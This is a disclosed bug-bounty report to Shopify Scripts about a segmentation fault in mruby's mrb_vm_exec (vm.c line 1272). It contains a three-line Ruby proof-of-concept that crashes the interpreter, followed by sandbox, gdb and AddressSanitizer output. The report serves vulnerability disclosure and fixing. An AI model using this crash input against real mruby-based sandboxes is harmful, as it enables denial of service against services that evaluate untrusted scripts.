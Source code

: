 # SIGSEGV - mrb_vm_exec - vm.c in line:1272

## Report Details
- **Report ID**: 196386
- **URL**: https://hackerone.com/reports/196386
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-01-06T20:17:26.992Z
- **Disclosed**: 2017-03-09T01:23:29.817Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC:
-------------------

The following code triggers the bug (attached as test_mrb_vm_exec_1272.rb):
	
	a,a,a,a=0,def e
	end
	a[]

Sandbox:
-------------------

	x@x:~/Desktop/research/mruby-engine/bin$ ./sandbox test_mrb_vm_exec_1272.rb 
	./sandbox:20: [BUG] Segmentation fault at 0x00000000000018
	ruby 2.2.6p396 (2016-11-15 revision 56800) [x86_64-linux-gnu]

	-- Control frame information -----------------------------------------------
	c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
	c:0002 p:0186 s:0005 E:0026a8 EVAL   ./sandbox:20 [FINISH]
	c:0001 p:0000 s:0002 E:001a10 TOP    [FINISH]

	-- Ruby level backtrace information ----------------------------------------
	./sandbox:20:in `<main>'
	./sandbox:20:in `sandbox_eval'

	-- Machine register context ------------------------------------------------
	 RIP: 0x00007f75b9c8c89f RBP: 0x00007f75b881b100 RSP: 0x00007f75b88119e0
	 RAX: 0x00007f75b8825b40 RBX: 0x0000000000000000 RCX: 0x00007f75b8825b30
	 RDX: 0x0000000000000008 RDI: 0x00007f75b8825b40 RSI: 0x0000000000000000
	  R8: 0x00007f75b8825b30  R9: 0x0000000000000002 R10: 0x0000000000000075
	 R11: 0x0000000000000000 R12: 0x00007f75b881fa00 R13: 0x0000000000000003
	 R14: 0x0000000000000000 R15: 0x0000000000000000 EFL: 0x0000000000010202

	-- C level backtrace information -------------------------------------------
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f75be38ed55]
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f75be38ef8c]
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f75be26b06b]
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f75be32114e]
	/lib/x86_64-linux-gnu/libc.so.6 [0x7f75bde6bff0]
	/home/x/Desktop/research/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_vm_exec+0x2aaf) [0x7f75b9c8c89f] /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:125
	/home/x/Desktop/research/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_vm_run+0x5c) [0x7f75b9c9084c] /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:772
	/home/x/Desktop/research/mruby-engine/lib/mruby_engine/mruby_engine.so(mruby_engine_monitored_eval+0xbe) [0x7f75b9c7e41e] ../../../../ext/mruby_engine/eval_monitored.c:68
	/lib/x86_64-linux-gnu/libpthread.so.0(start_thread+0xc2) [0x7f75bdc1f182] pthread_create.c:312
	/lib/x86_64-linux-gnu/libc.so.6(clone+0x6d) [0x7f75bdf3030d] ../sysdeps/unix/sysv/linux/x86_64/clone.S:111
	...
	...
	...
	7f75be896000-7f75be89b000 rw-p 00000000 00:00 0                          [stack:3369]
	7f75be89b000-7f75be89c000 r--p 00022000 08:01 1839103                    /lib/x86_64-linux-gnu/ld-2.19.so
	7f75be89c000-7f75be89d000 rw-p 00023000 08:01 1839103                    /lib/x86_64-linux-gnu/ld-2.19.so
	7f75be89d000-7f75be89e000 rw-p 00000000 00:00 0 
	7fff415ad000-7fff41dac000 rw-p 00000000 00:00 0                          [stack]
	7fff41dfe000-7fff41e00000 r-xp 00000000 00:00 0                          [vdso]
	ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]


	[NOTE]
	You may have encountered a bug in the Ruby interpreter or extension libraries.
	Bug reports are welcome.
	For details: http://www.ruby-lang.org/bugreport.html

	Aborted (core dumped)

Debug:
-------------------

	(gdb) r sandbox test_mrb_vm_exec_1272.rb 
	Starting program: /usr/bin/ruby sandbox test_mrb_vm_exec_1272.rb
	[Thread debugging using libthread_db enabled]
	Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
	[New Thread 0x7ffff7ff7700 (LWP 3230)]
	[New Thread 0x7ffff1f73700 (LWP 3277)]

	Program received signal SIGSEGV, Segmentation fault.
	[Switching to Thread 0x7ffff1f73700 (LWP 3277)]
	mrb_vm_exec (mrb=mrb@entry=0x7ffff1f744e0, proc=0x7ffff1f7c100, proc@entry=0x7ffff1f7c130, pc=0x7ffff36b04e8 <call_iseq>) at /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1272
	1272	        regs[0] = m->env->stack[0];
	(gdb) l
	1267	          stack_extend(mrb, (irep->nregs < 3) ? 3 : irep->nregs, 3);
	1268	        }
	1269	        else {
	1270	          stack_extend(mrb, irep->nregs, ci->argc+2);
	1271	        }
	1272	        regs[0] = m->env->stack[0];
	1273	        pc = irep->iseq;
	1274	        JUMP;
	1275	      }
	1276	    }


Backtrace:
-------------------

	(gdb) bt
	#0  mrb_vm_exec (mrb=mrb@entry=0x7ffff1f744e0, proc=0x7ffff1f7c100, proc@entry=0x7ffff1f7c130, pc=0x7ffff36b04e8 <call_iseq>) at /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1272
	#1  0x00007ffff33f184c in mrb_vm_run (mrb=0x7ffff1f744e0, proc=0x7ffff1f7c130, self=..., stack_keep=stack_keep@entry=0) at /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:772
	#2  0x00007ffff33df41e in mruby_engine_monitored_eval (data=0x7ffff1f743e0) at ../../../../ext/mruby_engine/eval_monitored.c:68
	#3  0x00007ffff7380182 in start_thread (arg=0x7ffff1f73700) at pthread_create.c:312
	#4  0x00007ffff769130d in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:111

Clang - mirb - ASAN - Log:
-------------------

	x@x:~/Desktop/research/clang/mruby/bin$ ASAN_SYMBOLIZER_PATH=/usr/lib/llvm-3.8/bin/llvm-symbolizer ./mirb test_mrb_vm_exec_1272.rb 
	mirb - Embeddable Interactive Ruby Shell

	 => [0, :e]
	ASAN:DEADLYSIGNAL
	=================================================================
	==3344==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000018 (pc 0x00000050d4ec bp 0x7fff670b43f0 sp 0x7fff670acec0 T0)
		#0 0x50d4eb in mrb_vm_exec /home/x/Desktop/research/clang/mruby/src/vm.c:1272:27
		#1 0x501d5b in mrb_vm_run /home/x/Desktop/research/clang/mruby/src/vm.c:772:10
		#2 0x4f3ef8 in main /home/x/Desktop/research/clang/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:549:18
		#3 0x7f8f3d340ec4 in __libc_start_main /build/buildd/eglibc-2.19/csu/libc-start.c:287
		#4 0x41a595 in _start (/home/x/Desktop/research/clang/mruby/bin/mirb+0x41a595)

	AddressSanitizer can not provide additional info.
	SUMMARY: AddressSanitizer: SEGV /home/x/Desktop/research/clang/mruby/src/vm.c:1272:27 in mrb_vm_exec
	==3344==ABORTING

	
Clang - mruby - ASAN - Log:
-------------------

	x@x:~/Desktop/research/clang/mruby/bin$ ASAN_SYMBOLIZER_PATH=/usr/lib/llvm-3.8/bin/llvm-symbolizer ./mruby test_mrb_vm_exec_1272.rb 
	ASAN:DEADLYSIGNAL
	=================================================================
	==3346==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000018 (pc 0x000000656aac bp 0x7fff5a504450 sp 0x7fff5a4fcf20 T0)
		#0 0x656aab in mrb_vm_exec /home/x/Desktop/research/clang/mruby/src/vm.c:1272:27
		#1 0x64b31b in mrb_vm_run /home/x/Desktop/research/clang/mruby/src/vm.c:772:10
		#2 0x6773e8 in mrb_top_run /home/x/Desktop/research/clang/mruby/src/vm.c:2487:12
		#3 0x616529 in mrb_load_exec /home/x/Desktop/research/clang/mruby/mrbgems/mruby-compiler/core/parse.y:5755:7
		#4 0x6171c5 in mrb_load_file_cxt /home/x/Desktop/research/clang/mruby/mrbgems/mruby-compiler/core/parse.y:5764:10
		#5 0x4f3af5 in main /home/x/Desktop/research/clang/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232:11
		#6 0x7f16c78e2ec4 in __libc_start_main /build/buildd/eglibc-2.19/csu/libc-start.c:287
		#7 0x41a505 in _start (/home/x/Desktop/research/clang/mruby/bin/mruby+0x41a505)

	AddressSanitizer can not provide additional info.
	SUMMARY: AddressSanitizer: SEGV /home/x/Desktop/research/clang/mruby/src/vm.c:1272:27 in mrb_vm_exec
	==3346==ABORTING

## Attachments
- test_mrb_vm_exec_1272.rb
- sandbox.log
